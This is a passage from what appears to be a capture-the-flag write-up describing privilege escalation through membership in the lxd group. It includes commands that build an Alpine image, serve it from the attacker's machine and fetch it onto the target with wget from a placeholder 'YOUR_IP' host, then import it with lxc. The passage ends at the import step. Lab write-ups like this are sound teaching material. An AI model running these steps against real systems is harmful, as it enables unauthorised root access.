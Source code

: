   <img width="767" height="379" alt="image" src="https://github.com/user-attachments/assets/08fcc32e-98c4-4bbe-8151-8be09e079d0b" />

- Our first flag is here.

# Privilege Escalation


- We tried to run sudo -l as john, but we are unable too, too a look using ls -la and see that john possibly has ran sudo before though

 <img width="614" height="313" alt="image" src="https://github.com/user-attachments/assets/6ba7fc49-baac-4661-a729-f9ccd7e711e5" />

- We might be able to use the .bash_history to find something useful.
- No luck

- Checked id

uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)

- Excellent! John is in the lxd group - this is a well-known privilege escalation vector!

  # Download and build Alpine image
git clone https://github.com/saghul/lxd-alpine-builder

<img width="615" height="194" alt="image" src="https://github.com/user-attachments/assets/53c7b8f8-d388-48a6-a8c2-10b0d212cf25" />

cd lxd-alpine-builder
./build-alpine

<img width="626" height="88" alt="image" src="https://github.com/user-attachments/assets/de3294f4-a87a-43a3-b2cc-8cbf63b7ad8f" />

# On your machine
python3 -m http.server 8000

<img width="508" height="74" alt="image" src="https://github.com/user-attachments/assets/07a56a7c-dd10-4137-a884-7133a8966950" />

# On target
cd /tmp
wget http://YOUR_IP:8000/alpine-v3.13-x86_64-20210218_0139.tar.gz

<img width="695" height="286" alt="image" src="https://github.com/user-attachments/assets/017c3cc4-a4f3-4a7e-8230-9c01333a67f6" />

# Import the image
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias myimage

<img width="661" height="331" alt="image" src="https://github.com/user-attachments/assets/1389784e-353c-4874-8fa7-90e2d3d59475" />
